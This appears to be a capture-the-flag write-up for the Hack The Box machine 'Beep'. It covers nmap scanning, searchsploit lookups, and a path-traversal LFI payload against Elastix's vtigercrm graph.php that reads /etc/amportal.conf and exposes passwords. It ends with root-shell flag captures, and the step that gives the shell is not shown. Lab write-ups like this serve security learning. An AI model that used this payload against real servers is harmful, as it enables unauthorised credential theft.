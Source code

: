 ```yaml
---
layout: post
title: Beep
tags: [OSCP, writeup, Password Reuse, LFI, Linux, Web]
description: "Beep write-up"
---
```


![Beep logo](/assets/imgs/beep/beep.png)

### This is an easy linux box

## Tool used

------

- browser (Firefox)
- find
- nmap
- searchsploit

## Reconnaissance

------

### Nmap

```
nmap -sC -sV -oA beep 10.10.10.7 -v

PORT      STATE SERVICE    VERSION
22/tcp    open  ssh        OpenSSH 4.3 (protocol 2.0)
| ssh-hostkey: 
|   1024 ad:ee:5a:bb:69:37:fb:27:af:b8:30:72:a0:f9:6f:53 (DSA)
|_  2048 bc:c6:73:59:13:a1:8a:4b:55:07:50:f6:65:1d:6d:0d (RSA)
25/tcp    open  smtp       Postfix smtpd
|_smtp-commands: beep.localdomain, PIPELINING, SIZE 10240000, VRFY, ETRN, ENHANCEDSTATUSCODES, 8BITMIME, DSN, 
80/tcp    open  http       Apache httpd 2.2.3
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.2.3 (CentOS)
|_http-title: Did not follow redirect to https://10.10.10.7/
|_https-redirect: ERROR: Script execution failed (use -d to debug)
110/tcp   open  pop3       Cyrus pop3d 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
|_pop3-capabilities: UIDL APOP LOGIN-DELAY(0) STLS IMPLEMENTATION(Cyrus POP3 server v2) RESP-CODES TOP USER EXPIRE(NEVER) AUTH-RESP-CODE PIPELINING
111/tcp   open  rpcbind    2 (RPC #100000)
143/tcp   open  imap       Cyrus imapd 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
|_imap-capabilities: Completed RENAME OK QUOTA LISTEXT NO X-NETSCAPE ANNOTATEMORE UNSELECT CATENATE RIGHTS=kxte URLAUTHA0001 LITERAL+ CHILDREN IDLE ACL IMAP4 BINARY IMAP4rev1 LIST-SUBSCRIBED THREAD=REFERENCES MULTIAPPEND ID MAILBOX-REFERRALS STARTTLS THREAD=ORDEREDSUBJECT UIDPLUS NAMESPACE ATOMIC SORT=MODSEQ SORT CONDSTORE
443/tcp   open  ssl/https?
|_ssl-date: 2020-07-16T16:42:53+00:00; +6m28s from scanner time.
880/tcp   open  status     1 (RPC #100024)
993/tcp   open  ssl/imap   Cyrus imapd
|_imap-capabilities: CAPABILITY
995/tcp   open  pop3       Cyrus pop3d
3306/tcp  open  mysql      MySQL (unauthorized)
4445/tcp  open  upnotifyp?
10000/tcp open  http       MiniServ 1.570 (Webmin httpd)
|_http-favicon: Unknown favicon MD5: 74F7F6F633A027FA3EA36F05004C9341
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
Service Info: Hosts:  beep.localdomain, 127.0.0.1, example.com
```

Here’s what nmap teaches us :

- port 22 (SSH) OpenSSH 4.3
- port 25 (SMTP) Postfix
- port 80 (HTTP) Apache httpd 2.2.3
- port 110 (POP) Cyrus 2.3.7
- port 143 (IMAP) Cyrus 2.3.7
- port 3306 (MYSQL)
- port 10000 MiniServ 1.570 Webmin

We have some versions, let’s check them for known exploits.

### Searchsploit

#### SSH

![Searchsploit SSH](/assets/imgs/beep/searchsploit_ssh.PNG)

As we can see, there is some exploit to do some “Username Enumeration”.  It might be interresting, but at the moment I don’t really need a  username. So if I have nothing, I’ll get back to that exploit.

#### Elastix

![Searchsploit Elastix](/assets/imgs/beep/searchsploit_elastix.PNG)

There is some interesting exploit here.

- LFI
- Blind SQL
- PHP Code Injection
- RCE

Let' check for more exploit before going through them.

#### POP/IMAP

![Searchsploit POP/IMAP](/assets/imgs/beep/searchsploit_cyrus.PNG)

Nothing here, the install version is 2.3.7

#### Webmin

![Searchsploit Webmin](/assets/imgs/beep/searchsploit_webmin.PNG)

The install version is 1.570 so there might be a RCE.

### Web

Now let's check the port with web service (80/443/10000).

#### 80/443

![Searchsploit Webmin](/assets/imgs/beep/elastix_login_page.PNG)

#### 10000

![Searchsploit Webmin](/assets/imgs/beep/webmin_login_page.png)

## Exploit

------

Since there is more exploit found with Elastix, that is were I started. I didn't found the Elastix version so I tried the first one LFI. 

Download the code like so :

```bash
searchsploit -m php/webapps/37637.pl
```

Read the exploit and found the exploit part which is :

```bash
#LFI Exploit: 
/vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action
```

Nothing difficult here, it's just a simple LFI, so let's try it in the browser !

![LFI Elastix](/assets/imgs/beep/lfi_elastix.png)

Bingo, it's working and we now have some credentials :

- amp109
- jEhdIekWmdjE
- amp111

And some users :

- asteriskuser
- admin
- asterisk

## Flags

------

### User.txt

```bash
sh-3.2# find / -name "user.txt"
/home/fanis/user.txt
sh-3.2# cat /home/fanis/user.txt 
aeff3def0c765c2677b94715cffa73ac
```

### Root.txt

```bash
sh-3.2# find / -name "root.txt"
/root/root.txt
sh-3.2# cat /root/root.txt
d88e006123842106982acce0aaf453f0
```